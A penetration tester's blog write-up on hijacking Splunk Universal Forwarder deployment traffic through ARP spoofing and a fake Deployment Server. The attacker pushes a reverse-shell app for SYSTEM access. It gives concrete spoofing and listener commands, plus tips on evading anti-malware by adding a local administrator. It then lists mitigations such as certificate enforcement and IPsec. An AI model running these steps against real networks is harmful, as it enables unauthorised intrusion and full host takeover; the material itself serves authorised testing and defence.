Attacking machines running the Splunk Universal Forwarders to achieve RCE.

# Overview

I sometimes find myself on engagements in a network with no credentials and not much going on for me. Responder doesn't always give me anything juicy and other more aggressive attack primitives are scoped out or impossible to execute.

However, a quick port scan reveals port 8089 exposed on a couple of hosts. More often than not, this means a Splunk agent is installed. I've seen [research](https://threat.tevora.com/penetration-testing-with-splunk-leveraging-splunk-admin-credentials-to-own-the-enterprise/) on how to abuse Splunk for such purposes, but I had yet to try it myself.

I decided to configure Splunk in my lab to find out if it is possible to achieve RCE on any host with the Splunk Universal Forwarder installed, given access to the same network. Spoiler alert: the answer is yes.

## The issue

The underlying issue here is that the Splunk Universal Forwarder (UF) does not by default enforce any authentication of the Splunk Deployment Server (DS). In a default install there is a default TLS certificate present, which is not enforced. Because the UF does not verify the DS, it will accept any DS. This means this communication becomes extremely vulnerable to man-in-the-middle attacks, as there is basically no authentication between the two components.

I discovered that Splunk even warns about the issue in the splunkd log on the UF.



## What do we achieve from this attack?

- Remote Code Execution as `SYSTEM` on any endpoint with Splunk Universal Forwarder running.

### Consequences

Note that there is a temporary consequence of this attack. When you hijack all Splunk management traffic from an endpoint, the endpoint will temporarily lose all its deployed Apps and be replaced by yours. Once the attack is stopped it should automatically connect back to the real deployment server and redownload it's apps. I have verified in a real production environment that this works reliably. However, all logs captured while the attack is ongoing is not sent to the real Deployment Server and is lost. You should inform the party that gave you consent to this attack of this consequence and ensure they agree to it.

# Attack steps

1. We configure a Splunk Deployment Server (DS) on our attacker host
2. We ARP spoof the target and pretend we are the DS
3. We deploy a malicious Splunk app to the target, that executes a payload

# Prerequisites

- A Linux machine on the same network as the target host(s)
- The ability to install and configure a Splunk deployment server on said machine
- A scope that allows ARP spoofing and redirection of Splunk traffic, which can be potentially disruptive
- Splunk Universal Forwarder running on the target

Note that Splunk has no authentication between the Universal Forwarder and
Deployment Server. Thus, all we need to do is tell clients you are the
forwarder, which is exactly what we do in this attack.

# Setup

## Components of the attack

- `192.168.0.134` - `ws01.lab.local` - The target host
- `192.168.0.20` - `kali01` - Attacker host
- `192.168.0.1` - The default gateway

I found a [useful diagram](http://downloads.jordan2000.com/splunk/Splunk-Common-Network-Ports-ver1.6.png) that displays some of the Splunk components and what ports they use for communication. Most of it is beyond the scope of this simple demo, but it's worth taking a look at it to get familiar with Splunk infrastructure.

## Preparing the target

In a real scenario you will not have access to the target (duh). I included this section so you can replicate the attack in your lab.

Install the Splunk Universal Forwarder (UF) with [Choco](https://chocolatey.org/)

    choco install splunk-universalforwarder

Do a netstat to verify port `8089` is exposed

    netstat -ab



Configure the forwarder to contact the "real" Deployment Server. The default credentials are `admin/changme`.

    cd "C:\Program Files\SplunkUniversalForwarder\bin"
    .\splunk.exe set deploy-poll 172.16.0.2:8089



## Installing Splunk Deployment Server

Splunk Enterprise can be downloaded for free with a login from the [Splunk website](https://www.splunk.com/en_us/download/splunk-enterprise.html). Assuming a Debian based OS, install the deb file with `apt`

    apt install ./splunk-7.3.1.1-7651b7244cf2-linux-2.6-amd64.deb

Once the server is installed, start it

    /opt/splunk/bin/splunk start



## ARP spoofing

We need to ARP spoof the target to be able to say we are the deployment server. However, we are not always lucky enough to be in the same network as the real Deployment Server. Hence, we need to find out where it is, and spoof it. We do that by spoofing the default gateway for our target, consequently routing everything through us.

First enable port forwarding on the attacking host

    sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sed -i 's/#net.ipv4.ip_forward=1/net.ipv4.ip_forward=1/' /etc/sysctl.conf
    sysctl -p



Open two terminals and execute `arpspoof` to tell the target that we are the default gateway and the gateway that we are the target. This way, all traffic to and from the target will be forwarded through our attacker host.

    arpspoof -i eth0 -t 192.168.0.134 192.168.0.1
    arpspoof -i eth0 -t 192.168.0.1 192.168.0.134

Instantly upon execution, ARP replies are coming in.





## Finding the real Deployment Server

If you are lucky, the DS is in the same network as your attacker host and target. If it is you can just ARP spoof that server directly. However, if the DS is in a different network, you need to find out where the DS is.

Note: when I did this I had both SSH and RDP going on to the boxes, so I filtered those and ARP requests, and focus on traffic to and from my target. We know that UFs communicate outbound on `8089` so we can filter on that.

    tcpdump -i eth0 port not 22 and port not 3389 and not ARP and host 192.168.0.134 and port 8089



We see that it's trying to reach out to a host on a different network on port `8089`. This is most likely the deployment server it has been configured for.

## Preparing the interface

We know from `tcpdump` that the real DS is at `172.16.0.2`. This is a property configured on the forwarder, so there is little we can do about that. We need to trick traffic to that IP to go to our deployment server. My solution to this was configuring another IP address on the eth0 interface, which will then always have a shorter route to that IP than to the real DS. For this, we configure an IP address on `eth0` with the IP address of the real DS.

    ip addr add 172.16.0.2 dev eth0



We verify that we have a route, but this should be obvious really.

    ip route get 172.16.0.2



Note that Splunk exposes itself on `0.0.0.0` so `8089` is not bound to any specific interface on the attacking host. This means Splunk will be accessible on all interfaces and IPs you configure.

Note: in an earlier version of the article I used an alias interface for this, which was completely unnecessary because the `ip` command natively support multiple IP addresses on an interface.

I also played with DNS spoofing to simply hijack the DNS query for the Deployment Server, but I had trouble getting it to succeed consistently.

## Preparing the deployment package

We are going to prepare a Splunk app that will be deployed to the target. We don't care for implementing this ourselves when numerous projects are easily available on Github. We chose the repo [reverse_shell_splunk](https://github.com/vartai-security/reverse_shell_splunk) for the job. This app will simply run a bat file that runs a Powershell-script, which executes a reverse shell.

_Note that such a shell might trigger anti-malware alert and get blocked. I would suggest doing something that could be considered more opsec safe, like adding a local user and adding it to the local administrators group._

We clone the repo and edit the `run.ps1` file to our attacker IP and port where we will be listening.

    git clone https://github.com/vartai-security/reverse_shell_splunk



    vim reverse_shell_splunk/reverse_shell_splunk/bin/run.ps1



We then copy the entire folder over to the deployment-apps directory.

    cd reverse_shell_splunk
    cp -r reverse_shell_splunk/ /opt/splunk/etc/deployment-apps/



## Listener

We are nearly there, so we set up a listener on the attacker host

    nc -lvp 443

## Preparing the Server Class

We now use the web interface to deploy the package we configured earlier to our target. Once you click save in the final step here, the App is deployed and will be installed on all specified clients. That means your payload will be firing!

To deploy Apps to specific hosts they have to be part of a Server Class. We configure this by doing the following:

Enter the web interface for your fake DS, that is exposed on port `8000`. In this example, the URL is `http://192.168.0.20:8000`

Click `Settings -> Forward Management`



Most likely you will see it already has 1 client phoned home already. And you will see the app you placed in your folder.

Go to `Server Classe`s and click `Create One`



Give it a name



## Deploying the package

Click `Add Apps`



Click the app in `Unselected App` and it will automagically move over to `Selected app`.



Click `Save`



Click `Edit` on the App and in that new view, ensure `Restart Splunkd` is checked. If not, the splunk deamon on the target won't restart and execute it's new app. Once done, click `Save`.



Now click `Add Clients`



## Attack

Now, everything is ready and all we need to do is execute the actual attack. This will happen quickly once we click Save, so we make sure everything is all set up before we click.

Specify the client in the whitelisting , which is our target and click Save.



Next time the client phones home, the DS should deploy the new App fairly quickly, and give us some feedback when it has.



## Profit

And there it is! Our beloved SYSTEM shell which we obtained from nothing but network access and some clever Splunk trickery.



## Troubleshooting the attack

### Client polling

Polling for new apps will always be initiated by the client, so we simply have to wait. If we are impatient and just want to simulate the attack, we can log on to the target host and force a restart of the UF.

    C:\Program Files\SplunkUniversalForwarder\bin> .\splunk.exe restart



After the restart we monitor using `tcpdump`, where we should see the target start connecting to our fake DS, thus installing the deployed app and execute the payload.

Note that the location of the deployed apps on the Windows endpoint is `C:\Program Files\SplunkUniversalForwarder\etc\apps`. You should see your malicious app here.



### Nothing gets executed

Usually, if nothing appears to get executed the payload is caught by anti-malware. I would suggest an opsec safe payload.

The other alternative is that you messed up the path structure of the app. It should look something like this:


# Mitigations

As this attack consists of several components, there are several mitigations that apply to it.

## Mitigating ARP spoofing

ARP spoofing has been and still is possible to do in most broadcast domains. Dynamic ARP inspection (DAI) can prevent this by intercepting all ARP requests and responses. Each intercepted packet is verified for valid MAC address to IP bindings. The best information on this I could find was [some Cisco documentation](https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst4500/12-2/25ew/configuration/guide/conf/dynarp.html). There are also a vast range of [third party solutions](https://en.wikipedia.org/wiki/ARP_spoofing?oldformat=true#Defense) available.

Note that the cost of implementing this in large enterprise networks may not benefit the risk. You could also make the argument that we should be able to trust the protocols like TLS to not force us to apply mitigations at this layer.

## Splunk certificate authentication

In all the Splunk environments I have tested, the UF has not been configured to enforce the TLS certificate for the Deployment Server, which is the primary reason the attack demonstrated in this post works. Because the UF does not verify the DS, it will accept any DS. To mitigate this, [configure Splunk forwarding to use your own certificates](https://docs.splunk.com/Documentation/Splunk/latest/Security/ConfigureSplunkforwardingtousesignedcertificates). Ensure the certificate is enforced in [deploymentclient.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Deploymentclientconf). This setting is `sslVerifyServerCert = <bool>`.

It is possible to deploy the certificate with a Splunk app. If you can guarantee the integrity of the initial deployment of an app, deploying certificates that way is probably one of the easiest ways. It will be almost like an initial handshake for the authentication between UF and DS.

With this said, ensuring clients suddenly don't have certs that expire can be a bit of a maintenance nightmare.

## IPsec

[@bravo2day](https://twitter.com/bravo2day) and [@silkeslips](https://twitter.com/silkeslips) started looking into mitigating this vulnerability by tunneling the Deployment Server traffic through an IPsec tunnel. Using the Windows firewall it is apparently possible to make the UF connect to the same address, but using a connection security rule to establish an IPsec tunnel for traffic to destination port 8089. Note that since both Cluster Master and Deployment Server traffic is destination port 8089, this will make both services go through the tunnel. This solution might be more efficient than implementing PKI for an enterprise. I think it's a very creative solution to mitigate this vulnerability.

## Authorization of UF

I found [another article](https://www.duanewaddle.com/splunk-pass4symmkey-for-deployment-client-deployment-server/) describing possible mitigations for this issue. While it did identify a way to make sure only authorized UFs are allowed to connect to the DS, it did not identify any workaround or mitigation for the authentication issue.

## Using other systems for deploying apps

It could be possible to not use a Deployment Server at all, and rely on other systems to deploy apps, like SCCM or perhaps even configuration management tools like Ansible, Puppet, etc.

## Low privilege forwarder

Splunk support running the [UF in low-privilege mode](https://docs.splunk.com/Documentation/Forwarder/7.3.1/Forwarder/InstallaWindowsuniversalforwarderfromthecommandline#Install_the_universal_forwarder_in_low-privilege_mode). This will prevent the agent from running as SYSTEM and attacker getting access with those privileges. This is definitely not always desirable as you will not get complete logging from an endpoint without elevated privileges.

## Securing Splunk Enterprise guides

The following documentation shows how to secure and harden Splunk installations

* [How to secure and harden your Splunk software installation](https://docs.splunk.com/Documentation/Splunk/latest/Security/Hardeningstandards)

# Credits

* [Ryan Hays](https://twitter.com/_ryanhays) - Lots of good research and toolkits for Splunk attacks!
  * [Penetration Testing with Splunk: Leveraging Splunk Admin Credentials to Own the Enterprise](https://threat.tevora.com/penetration-testing-with-splunk-leveraging-splunk-admin-credentials-to-own-the-enterprise/)
  * [TBGSecurity/weaponize_splunk](https://github.com/TBGSecurity/weaponize_splunk)
  * [TBGSecurity/splunk_shells](https://github.com/TBGSecurity/splunk_shells)
* [El Nerdo](https://github.com/elnerd) -  for the idea of configuring an additional IP address.
* Splunk guy at work, who put me onto this and helped me understand more about how Splunk works. _"It's one huge, dirty Python hack"_
* [@bravo2day](https://twitter.com/bravo2day) - for ideas around IPsec mitigation.

### Inspiring posts

* https://www.n00py.io/2018/10/popping-shells-on-splunk/
